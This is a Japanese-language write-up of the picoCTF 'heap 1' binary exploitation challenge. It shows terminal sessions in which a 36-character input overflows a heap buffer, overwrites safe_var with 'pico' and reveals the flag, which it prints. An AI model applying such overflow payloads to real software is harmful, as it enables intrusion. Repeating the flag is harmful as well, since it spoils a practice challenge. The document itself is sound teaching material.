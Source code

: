 # heap 1:Binary Exploitation

Can you control your overflow?  
Download the binary [here](chall).  
Download the source [here](chall.c).  
Connect with the challenge instance here: `nc tethys.picoctf.net 50975`

# Solution

heap0とほぼ同じだと推察できるので、とりあえず、`nc tethys.picoctf.net 50975`を実行してみる。
```
$ nc tethys.picoctf.net 50975

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x571a3a5852b0  ->   pico
+-------------+----------------+
[*]   0x571a3a5852d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4
Looks like everything is still secure!

No flage for you :(
```
選択肢で2を選んで、とりあえずオーバーフローを試みると、案の定`safe_var`が書き換わった。
```
Enter your choice: 2
Data for buffer: abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x61019f5702b0  ->   abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz
+-------------+----------------+
[*]   0x61019f5702d0  ->   ghijklmnopqrstuvwxyz
+-------------+----------------+
```
ソースコードを見てみると、`!strcmp(safe_var, "pico")`という記述があったsafe_varとpicoを比較して一致すればフラグが得られるようになっているらしい。safe_varは32文字を超えて入力した文字に書き換わるようなので`何らかの文字列(32文字)+pico`を入力すればsafe_varがpicoに書き換わり、フラグが得られるはずだ。

```
Enter your choice: 2
Data for buffer: abcdefghijklmnopqrstuvwxyzabcdefpico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x61019f5702b0  ->   abcdefghijklmnopqrstuvwxyzabcdefpico
+-------------+----------------+
[*]   0x61019f5702d0  ->   pico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_ce5bee9b}
```
flagが得られた。

`picoCTF{starting_to_get_the_hang_ce5bee9b}`

